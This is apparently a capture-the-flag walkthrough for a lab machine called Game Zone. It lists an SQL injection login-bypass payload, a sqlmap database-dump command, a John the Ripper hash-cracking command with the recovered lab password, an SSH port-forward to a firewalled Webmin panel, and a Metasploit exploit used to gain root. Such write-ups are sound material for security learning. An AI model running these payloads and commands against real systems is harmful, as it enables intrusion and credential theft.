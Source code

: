 # GAME ZONE
```
IP = 10.10.11.154
```

+ Ran the initial nmap scan
+ Apache server running
+ SQLi vuln exists, enter ` ' OR 1=1 -- -` as username to log into portal.php
+ Intercept request from portal.php using burp and save it into a text file
+ Automated all types of SQLi for mysql using sqlmap
	`sqlmap -r request.txt --dbms=mysql --dump`
+ The dump from sqlmap gave password hash for user agent47
+ Cracked the hash using JohnTheRipper [videogamer124]
	`john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-SHA256`
+ SSHed into the machine using agent47:videogamer124 credentials
+ Listed sockets using `ss -tunlp`
+ Created SSH reverse tunnel to access firewall restricted webserver
	`ssh -L 10000:localhost:10000 agent47@10.10.11.154`
+ Visit `http://localhost:10000/` to access webmin CMS, login with agent47:videogamer124
+ Found webmin version [1.580]
+ Searched for vulnerabilities using searchsploit for webmin 1.580
+ Found a metasploit module, loaded, configured and executed to gain root
